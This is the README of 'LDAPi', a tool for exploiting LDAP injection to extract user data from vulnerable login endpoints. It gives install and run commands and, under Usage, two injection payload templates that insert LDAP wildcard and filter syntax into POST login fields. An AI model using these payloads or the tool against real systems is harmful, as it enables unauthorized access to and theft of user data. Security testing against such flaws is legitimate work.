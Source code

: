 # LDAPi

## Description

LDAPi is a sophisticated tool designed to exploit LDAP injection vulnerabilities. With a focus on simplicity and efficiency, it offers a powerful mechanism to extract data through LDAP injection techniques, enabling users to retrieve comprehensive data sets from vulnerable systems. Its utilization of binary trees for data sorting and searching ensures a fast and effective approach in handling large volumes of user data.

## Features

- Advanced LDAP injection exploitation.
- Capable of retrieving extensive data from vulnerable systems.
- Utilizes binary trees for efficient data management.
- Integrated with essential libraries like sys, signal, time, requests, string, argparse, and pwn for enhanced functionality.

## Installation

```bash
git clone https://github.com/Hamibubu/LDAPi.git
cd LDAPi
pip install -r requirements.txt
```

## Usage

1. Adequate the payload = 
`f"user_id={new_pseudouser}*&password=*&login=1&submit=Submit"` and `payload = f"user_id={user})({obj}={data+char}*&password=*&login=1&submit=Submit"` to your POST request.
2. Run the following command
```bash
python3 LDAPi.py --url http://<your endpoint>
```